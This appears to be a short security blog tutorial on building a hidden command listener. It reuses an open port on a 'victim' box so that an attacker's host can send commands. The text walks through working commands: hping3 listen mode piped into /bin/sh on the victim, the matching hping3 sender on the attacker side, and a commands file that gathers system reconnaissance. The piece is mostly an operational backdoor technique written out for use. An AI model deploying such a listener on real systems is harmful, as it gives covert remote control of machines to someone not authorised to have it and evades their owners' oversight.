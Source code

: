 ```yaml
---
title:  "Hidden Command Listener"
categories: [Steganography]
---
```


![Logo](/assets/images/backdoor.jpg)

## Create a hidden command listener by reusing an open port

### Scenario:
* **Box A** - Victim, running a network service on port 8834. We'll reuse this port!
* **Box B** - Attacker host behind NAT. Will transmit commands to the listener waiting on the victim.

This is similar to a reverse shell from box A to box B, except that B will need another way to view results of the commands executed on A:

**A (Victim's box)**:
```bash
$ sudo hping3 --listen SecretSignature -I vboxnet0 -p 8834 | /bin/sh
```

Explanation for the parameters:
```
--listen  - Listen mode. Waits for packets containing the signature and dump the data from signature to the end of the packet 
-I        - Interface to listen on
-p        - Listening port
```

This will intercept packets and dump the content after a matching signature. Commands will be passed to the shell to be executed. Another trick would be needed to view the output of the commands though.

**B (Attacker's box**: 
```bash
$ sudo hping3 --count 1 --data 200 --file commands.txt --sign SecretSignature 192.168.56.1 -V -p 8834
```

Explanation for the parameters:
```
--count 1   - Stop after sending 1 packet
--data 200  - Set packet body size in bytes
--file      - Fill packet with data from file
--sign      - Fill first a signature in the packet
-V          - Verbose mode
-p          - Destination port
```

The content of the commands file:
```bash
$ cat commands.txt
echo 123 > hacked.txt
whoami > log.txt
uname -a >> log.txt
pwd >> log.txt
ls -al >> log.txt
ifconfig -a >> log.txt

```

The commands should have been executed on victim's machine (A) and results saved in the corresponding log file.

<div class="box-note">
The new line at the end is very important to get the last command executed!
</div>
